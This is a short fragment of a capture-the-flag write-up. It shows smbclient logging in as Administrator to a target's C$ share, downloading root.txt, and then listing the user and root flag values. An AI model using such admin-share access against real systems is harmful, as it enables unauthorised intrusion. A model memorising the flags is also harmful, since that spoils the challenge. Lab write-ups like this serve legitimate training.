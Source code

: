 ```bash
$ smbclient -U Administrator \\\\${IP}\\C$
smb: \> cd Users\Administrator\Desktop\
smb: \Users\Administrator\DEsktop\> get root.txt
smb: \Users\Administrator\DEsktop\> exit
$ cat root.txt
deb3dfe1f1ab3470049665f5b5c2c5e5
```

---

## FLAGS

USER: aac7dba51b0934b8745f36cd2b5f1f14

ROOT: deb3dfe1f1ab3470049665f5b5c2c5e5